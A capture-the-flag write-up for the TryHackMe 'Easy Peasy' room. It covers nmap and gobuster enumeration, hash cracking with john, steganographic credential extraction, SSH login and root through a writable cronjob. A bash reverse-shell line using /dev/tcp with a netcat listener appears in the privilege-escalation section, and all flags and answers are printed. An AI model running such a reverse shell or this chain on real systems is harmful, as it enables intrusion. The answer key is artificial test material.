





# Easy Peasy - TryHackME Write-up

## Overview

| Property | Value |
|----------|--------|
| OS | Linux |
| Difficulty | Easy |
| Category | Web Exploitation / Privilege Escalation |

* **From**: TryHackMe
* **Room**: Easy Peasy

## Objective

1. Enumerate open services with Nmap
2. Discover hidden directories with Gobuster
3. Recover flags and credentials from encoded content
4. Extract SSH credentials from a steganographic image
5. Gain access as user boring
6. Abuse a writable root cronjob to obtain root

## Enumeration

### Nmap Scan

```zsh

└─$ sudo nmap -sC -sV -p- 10.112.160.8

Host is up (0.080s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
80/tcp    open     http    nginx 1.16.1
180/tcp   filtered ris
217/tcp   filtered dbase
6498/tcp  open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
11271/tcp filtered unknown
13434/tcp filtered unknown
19072/tcp filtered unknown
21939/tcp filtered unknown
24763/tcp filtered unknown
29972/tcp filtered unknown
31205/tcp filtered unknown
48618/tcp filtered unknown
49986/tcp filtered unknown
65160/tcp filtered unknown
65524/tcp open     http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

---

## Enumeration

### Directory Brute Force

* Using gobuster, I was able to find a hidden directory using the small directory list, the medium wordlist did not return any results.

```zsh

└─$ gobuster dir -u http://10.112.160.8 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.160.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
hidden               (Status: 301) [Size: 169] [--> http://10.112.160.8/hidden/]

- We inspected in the page source and we found nothing interesting inside this directory, so we try the hidden directory with gobuster.
```


* Nothing interesting here, but let's go further enumerate:

```zsh

└─$ gobuster dir -u http://10.112.160.8/hidden -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.160.8/hidden
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
whatever             (Status: 301) [Size: 169] [--> http://10.112.160.8/hidden/whatever/]
```


* Nice! Digging in the code source we found this paragraph:

```html
<p> hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```
- That looks like base64 encoded. We're going to decode it using our terminal.

```zsh
└─$ echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
flag{f1rs7_fl4g}  
```

* And there it is, our first flag!

* For our second flag TryHackMe asks to further enumerate the machine. The /whatever directory is entitled "Dead end" so looks like we're done here. We are going to the port 65524 


```zsh

└─$ gobuster dir -u http://10.112.160.8:65524 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.160.8:65524
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 280]
.htaccess            (Status: 403) [Size: 280]
.htpasswd            (Status: 403) [Size: 280]
index.html           (Status: 200) [Size: 10818]
robots.txt           (Status: 200) [Size: 153]
server-status        (Status: 403) [Size: 280]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```                                                             

* Inside the source code of /robots.txt we find something interesting.

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

* Looks like a hash. Let's find out with hash-identifier.


```zsh

─$ hash-identifier a18672860d0510e5ab6699730763b250                                                       
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

* It's MD5! We are going to crack it in a second moment.

* Now, Let's take a look at the index and looking thoroughly, we find the third flag: Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}



* Great!! Inspecting the source code we found something hidden:

```html

<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

* So, we're going to paste this encoded string on Cyberchef with "From" the various Base solutions we have. It turns out it's Base52 for "/n0th1ng3ls3m4tt3r"


* Going into that directory we find another hash: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

---

## CRACKING HASHES

* Now, let's download the file attached in the Task and it is a wordlist. Even one of the questions asks to use the wordlist to crack the hash. So, now we check with hash-identifier which type of hash we're working with: 

```zsh

└─$ hash-identifier 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-256
[+] Haval-256

```

* The hash appears to be SHA-256 according to hash-identifier. Now, is time to use john the ripper. TryHackMe suggests to use gost hashing:

```zsh

└─$ john --wordlist=/home/newface/Downloads/easypeasy_1596838725703.txt --format=gost hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?)     
1g 0:00:00:00 DONE (2026-05-26 20:31) 100.0g/s 514100p/s 514100c/s 514100C/s 123456..sunshine
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* And there you go! "mypasswordforthatjob". Password found!

* For our MD5 hash we are going to browse to hashes.com and we get to find the next flag immediately!



---

## GETTING SSH CREDENTIALS

* Ok, it's time to get the password to access via SSH to the target. 

* When we were in the `/n0th1ng3ls3m4tt3r` directory we noticed that we could highlight also an image. So, inspecting the source code we see the image uploaded and a binary. We're going to download it in our machine to see further binary information.


```zsh

└─$ wget http://10.112.160.8/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
```

* We tried tools like `exiftool`, `steghide` and `file` but we didn't find anything interesting yet. Exiftool asks us for a passphrase. Could be that we have to find a passphrase first? We can try `stegseek`, which is a password cracker:

```zsh
└─$ stegseek binarycodepixabay.jpg /home/newface/Downloads/easypeasy_1596838725703.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "mypasswordforthatjob"
[i] Original filename: "secrettext.txt".
[i] Extracting to "binarycodepixabay.jpg.out".
```

* Yes! Before, with just `stegseek` and it didn't get any output, adding the wordlist downloaded before we got the infos we're looking for. So now we use steghide again.

```zsh
└─$ steghide --extract -sf binarycodepixabay.jpg                                      
Enter passphrase: 
wrote extracted data to "secrettext.txt".


└─$ cat secrettext.txt
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

* We see now we got a username and a password that is clearly binary code. Let's copy and paste it on Cyberchef to get the result

 

 * Great now we got the password: "iconvertedmypasswordtobinary".
---

 ## GETTING SSH ACCESS

 * All right, now that we got all the credentials to get access via SSH, we try to find the last flags. Note that port 22 usually used for ssh is closed, so we have to specify the port we want to use to get access:

```zsh
└─$ ssh boring@10.113.158.195 -p 6498
The authenticity of host '[10.113.158.195]:6498 ([10.113.158.195]:6498)' can't be established.
ED25519 key fingerprint is: SHA256:6XHUSqR7Smm/Z9qPOQEMkXuhmxFm+McHTLbLqKoNL/Q
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.113.158.195]:6498' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.113.158.195's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ 
```

* Now that we are inside our vulnerable machine let's find the last two flags we are asked.

```bash
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
boring@kral4-PC:~$ 
```

* Here's one, but we need to adjust it to get it right. Looks like ROT13. We're going to use Cyberchef once again to find out.

[User Flag](screenshots/user-flag.png)

* There you go!! Now, TryHackMe asks us to search for the root flag.
---

## PRIVILEGE ESCALATION

* Now, We do some reconnaissance to get more info on our user:

```bash
boring@kral4-PC:~$ id
uid=1000(boring) gid=1000(boring) groups=1000(boring)
boring@kral4-PC:~$ hostname
kral4-PC
boring@kral4-PC:~$ uname
Linux
boring@kral4-PC:~$ uname -a
Linux kral4-PC 4.15.0-106-generic #107-Ubuntu SMP Thu Jun 4 11:27:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
boring@kral4-PC:~$ sudo -l
[sudo] password for boring: 
Sorry, user boring may not run sudo on kral4-PC.
boring@kral4-PC:~$
```

* Ok, we cannot run sudo and we are not in the sudoers file, we also do not have access to root directory, so we have to escalate privileges here to find the last flag. Our initial Challenge description says to escalate the privileges using a vulnerable cronjob, so we are going further in that direction: 

```bash
boring@kral4-PC:/usr/bin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *  * * *  root    cd / && run-parts --report /etc/cron.hourly
25 6  * * *  root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7  root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * *  root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

```

* Bingo! Here's a `.mysecretcronjob` hidden in the `www` directory. The cronjob runs as root, but it is writable by the user `boring`. We can try to see what's inside:

```bash
boring@kral4-PC:/var/www$ file .mysecretcronjob.sh
.mysecretcronjob.sh: Bourne-Again shell script, ASCII text executable
```

* Using `nano` we see the script inside:

```nano

#!/bin/bash
# i will run as root

```

* Ok, we definetly need to escalate to root here.
---

## LINPEAS

* For completeness, I also ran LinPEAS, which highlighted the same cronjob misconfiguration. However, the vulnerable scheduled task had already been identified manually through `/etc/crontab`

```bash
boring@kral4-PC:/tmp$ ./linpeas.sh

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
 ```
---

 ## REVERSE SHELL                                                                                                        
* Since the script `* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh`runs every minute as root, we can modify it to execute a reverse shell and obtain a privileged session. On pentestmonkey.net we search for the bash reverse shell and we add this command to the script using nano changing the IP address and port to our IP and port to 4444: `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1`  

* On my machine instead I'm going to use netcat listening on port 4444, ready to start a root session from the script.                                    

```zsh
└─$ nc -nvlp 4444
listening on [any] 4444 ...
```

* And there you go!!

```bash
connect to [192.168.140.9] from (UNKNOWN) [10.113.158.195] 55368
bash: cannot set terminal process group (9302): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
```

* Now, finally we are root! It's time to use our privileges to navigate into the `/root` directory and find our root flag.

```bash
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls
ls
root@kral4-PC:~# pwd
pwd
/root
root@kral4-PC:~# ls -a
ls -a
.
..
.bash_history
.bashrc
.cache
.gnupg
.local
.profile
.root.txt
.selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~# 
```

* Awesome! our root flag is found and this Challenge is complete!

---

# CONCLUSION

This room covered several common attack vectors including information disclosure, hash cracking, steganography, credential harvesting, SSH access and privilege escalation through an insecure cronjob configuration.

Below are the final answers and recommended mitigations.

## FLAGS

## First flag

```text
flag{f1rs7_fl4g}
```

---

## Second flag

```text
flag{1m_s3c0nd_fl4g}
```

---

## Third flag

```text
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

---

## What is the hidden directory?

```text
/n0th1ng3ls3m4tt3r
```

---

## What is the password hidden in the hash?

```text
mypasswordforthatjob
```

---

## What is the password to login via SSH?

```text
iconvertedmypasswordtobinary
```

---

## User flag

```text
flag{n0wits33msn0rm4l}
```

---

## Root flag

```text
flag{63a9f0ea7bb98050796b649e85481845}
```

## KEY TAKEAWAYS

This room demonstrated how multiple low-severity findings can be chained together into a full system compromise.

Key techniques included:

- Service enumeration with Nmap
- Directory discovery using Gobuster
- Source code analysis
- Hash identification and password cracking
- Steganography analysis with StegSeek
- Credential recovery and SSH access
- Privilege escalation through a misconfigured root cronjob

Although each issue individually appeared minor, their combination ultimately resulted in full root access to the target system.